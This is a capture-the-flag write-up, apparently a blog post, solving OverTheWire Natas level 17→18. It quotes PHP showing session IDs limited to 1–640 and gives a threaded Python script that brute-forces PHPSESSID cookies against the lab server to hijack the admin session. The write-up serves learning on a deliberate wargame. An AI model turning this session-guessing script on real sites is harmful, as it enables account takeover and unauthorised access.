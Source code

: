 ```yaml
---
layout: post
title:  "Natas Level 17 → Level 18"
date:   2021-05-29 18:42:56
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: Bill never said that!
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
The natas18 tells us to login to get the credentials for the next level. The form allows us to enter in a username and password. We can also view the source code.  Due to the length of the code, I'll only included selected sections.

First, the form does not allow the admin to log in.

```php
function isValidAdminLogin() { 
    if($_REQUEST["username"] == "admin") {
    /* This method of authentication appears to be unsafe and has been disabled for now. */
        //return 1;
    }

    return 0;
}
```

Second, the site uses PHPSESSID to track the user session.

```php
function my_session_start() { 
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
    if(!session_start()) {
        debug("Session start failed");
        return false;
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true;
    }
    }

    return false;
}
```

Third, the session id is between 1 and 640, inclusive.

```php
if(my_session_start()) {
    print_credentials();
    $showform = false;
} else {
    if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
    session_id(createID($_REQUEST["username"]));
    ...
```

```php
function createID($user) { 
    global $maxid;
    return rand(1, $maxid);
}
```

```php
$maxid = 640; // 640 should be enough for everyone
```

The one thing we don't see is the password being used for anything. Enter in anything other than admin for the username and anything for the password, then click Login. Now open your browser's Developer Tools (F12 in Firefox) and click on the Storage tab (again in Firefox) to view the value stored in PHPSESSID.

If you were to delete this cookie, go back to main page for natas19 and enter the same information into the form, you'd get a different session id. This means that every user gets an random id between 1 and 640, including the admin. Since the search space is so small, we should be able to bruteforce the id fairly quickly.

As we saw when we logged in, we're greeted with, "You are logged in as a regular user" when we first logged in. While we can get the admin greeting from the source, we don't need it. We'll simply look for the absence of this line to let us know when we've found the correct id.

You'll need to add the current level password to the script. The script takes just over 4 seconds to run on my computer.

```python
#!/usr/bin/env python
import requests
from requests.auth import HTTPBasicAuth
import concurrent.futures

natas18_password = 'x------------------------------P'
session = requests.Session()


def get_phpsessid(id):
    resp = requests.get('http://natas18.natas.labs.overthewire.org/index.php',
                        cookies={"PHPSESSID": str(id)},
                        auth=HTTPBasicAuth('natas18', natas18_password))

    if "You are logged in as a regular user" not in resp.text:
        print(f'The admin id is {id}')
        print(resp.text)
        exit(0)


with concurrent.futures.ThreadPoolExecutor() as executor:
    executor.map(get_phpsessid, list(range(641)))
```